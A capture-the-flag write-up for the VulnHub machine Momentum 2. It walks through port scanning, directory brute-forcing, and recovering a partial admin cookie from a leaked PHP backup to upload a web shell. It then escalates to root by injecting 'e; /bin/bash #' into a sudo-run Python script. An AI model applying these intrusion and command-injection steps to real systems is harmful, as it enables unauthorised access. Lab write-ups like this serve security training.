

# [Momentum 2](https://www.vulnhub.com/entry/momentum-2,702/)

First of all, `nmap`

```
# Nmap 7.92 scan initiated Tue Sep  7 14:00:09 2021 as: nmap -vvv -p 22,80 -sCV -oA init 192.168.1.15
Nmap scan report for 192.168.1.15
Host is up, received syn-ack (0.00022s latency).
Scanned at 2021-09-07 14:00:16 +07 for 6s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 02:32:8e:5b:27:a8:ea:f2:fe:11:db:2f:57:f4:11:7e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvLBfxFldO4WbIevNlJ0QOUhVEAZSMh90tM0zOzgCyI78XrXIbLylHrFIWO2LLq58sOiBff8isSFOqMbi78E/vfYEfxJWFVf5rHF81H5bvMC/CyHwKp7rVwuAZmE8ptSY7O3YQame8tRVzBV5S0Q3MiiRiAAoKVD+IYRLjPJS86Vw5KBcjyRgV74uhq67aUF4lLfzN1bnFXLXcj0oEaINBvGyoL7WHHbeBUN79frbst2B2dQF11y2MX+1N4eY7kyYs8yfpdlpbg3cphSAdijlEhR3k9VfBniY4j/uDVDBFGVR222Ed4C9B/uO39Uo5uWL14+CniivDjFMiBxcQ2Ipn
|   256 74:35:c8:fb:96:c1:9f:a0:dc:73:6c:cd:83:52:bf:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPLDfFr1akIWI3PRtJ8vCRvpVzphugymeINxdNUn9oNKsOa8tscCJATLz23ZTHDcD5X7pGp3JrdtLMYu6jt6WxQ=
|   256 fc:4a:70:fb:b9:7d:32:89:35:0a:45:3d:d9:8b:c5:95 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAwDf+5b2dd60HSltfSqfwn1oSHmFxk++3wsFOPe4L/N
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum 2 | Index
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  7 14:00:22 2021 -- 1 IP address (1 host up) scanned in 12.99 seconds
```

Looking at the web page on port 80, there's nothing special. We then run `gobuster`.

```
$ gobuster dir -u "http://192.168.1.15/" -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -d -x php -r

/img                  (Status: 200) [Size: 1305]
/ajax.php.bak         (Status: 200) [Size: 357]
/css                  (Status: 200) [Size: 931]
/ajax.php             (Status: 200) [Size: 0]
/manual               (Status: 200) [Size: 626]
/js                   (Status: 200) [Size: 928]
/owls                 (Status: 200) [Size: 737]
```

We have `ajax.php` and its backup `ajax.php.bak` which we can download. `/owls` has directory listing but with nothing. Inside `/js`, we have a single file `main.js`.

```js
function uploadFile() {

    var files = document.getElementById("file").files;

    if(files.length > 0 ){

       var formData = new FormData();
       formData.append("file", files[0]);

       var xhttp = new XMLHttpRequest();

       // Set POST method and ajax file path
       xhttp.open("POST", "ajax.php", true);

       // call on request changes state
       xhttp.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {

            var response = this.responseText;
            if(response == 1){
               alert("Upload successfully.");
            }else{
               alert("File not uploaded.");
            }
          }
       };

       // Send request with data
       xhttp.send(formData);

    }else{
       alert("Please select a file");
    }

 }
```

We see here that we can upload files by making POST requests to `/ajax.php`. Looking at `ajax.php.bak` ...

```php
    //The boss told me to add one more Upper Case letter at the end of the cookie
   if(isset($_COOKIE['admin']) && $_COOKIE['admin'] == '&G6u@B6uDXMq&Ms'){

       //[+] Add if $_POST['secure'] == 'val1d'
        $valid_ext = array("pdf","php","txt");
   }
   else{

        $valid_ext = array("txt");
   }

   // Remember success upload returns 1
```

We see that we can upload PHP files if we have:

- the `admin` cookie set correctly to a known string with 1 unknown uppercase character at the end
- the parameter `secure` set to `val1d` in our POST request

First, we try to upload a `.txt` file with an RCE for a sanity check.

```sh
V curl -X POST "http://192.168.1.15/ajax.php" -F "file=@/tmp/test.txt"
1
```

I put the request through Burp Intruder and fuzz



We find that we're able to upload with 'R' as the unknown capital letter, and our PHP file is uploaded, and we can get a reverse shell on the machine.

Looking at `/home`, we have 2 directories: "athena" and "team-tasks". Inside athena's directory is a password hint.

> password : myvulnerableapp[Asterisk]

With this, we're able to `su athena` with the password `myvulnerableapp*`.

As athena, we can run a python script as root

```sh
athena@momentum2:~$ sudo -l
Matching Defaults entries for athena on momentum2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User athena may run the following commands on momentum2:
    (root) NOPASSWD: /usr/bin/python3 /home/team-tasks/cookie-gen.py
```

Looking at the script at hand

```python
cat cookie-gen.py
import random
import os
import subprocess

print('~ Random Cookie Generation ~')
print('[!] for security reasons we keep logs about cookie seeds.')
chars = '@#$ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefgh'

seed = input("Enter the seed : ")
random.seed = seed

cookie = ''
for c in range(20):
    cookie += random.choice(chars)

print(cookie)

cmd = "echo %s >> log.txt" % seed
subprocess.Popen(cmd, shell=True)
```

We see that we can input `seed` which is formatted into a string that gets executed. We can exploit this with command injection by running the script with `sudo` and supplying `e; /bin/bash #` for the seed. With this, we should have a root shell.
`
